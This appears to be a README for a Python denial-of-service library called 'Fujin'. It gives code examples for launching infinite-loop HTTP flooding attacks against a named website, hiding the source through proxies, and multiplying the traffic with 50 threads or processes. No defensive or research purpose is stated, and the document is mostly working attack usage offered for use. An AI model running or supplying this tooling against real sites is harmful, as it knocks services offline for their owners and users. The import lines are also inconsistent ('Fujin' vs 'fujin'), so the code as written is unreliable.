 # Documentation
Happy learnings

## Install

## Initialise Object
```
from Fujin import Fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
```

## Run a simple Asynchronous DDoS
This will run an Infinite Loop Synchronous function that should infinitely send traffic to your selected website.
```
from Fujin import fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
ddos.begin_async_get_attack()
```

## Use proxies
```
from Fujin import fujin

url = "https://999root.xyz/"

proxies = {
  "http": "http://[proxy]"
}

ddos = Fujin(url=url, proxies=proxies)
```

## Use threading or multiprocessing to speed up our DDoS
```
# Daemon = run in the background / threads = how many threads would you like to run
ddos.thread_async_attack(threads=50, daemon=True)
ddos.thread_sync_attack(threads=50, daemon=True)
```

```
ddos.multiproc_sync_attack(processes=50, daemon=True)
ddos.multiproc_async_attack(processes=50, daemon=True)
```

## What's faster sync or async
asnyc mate
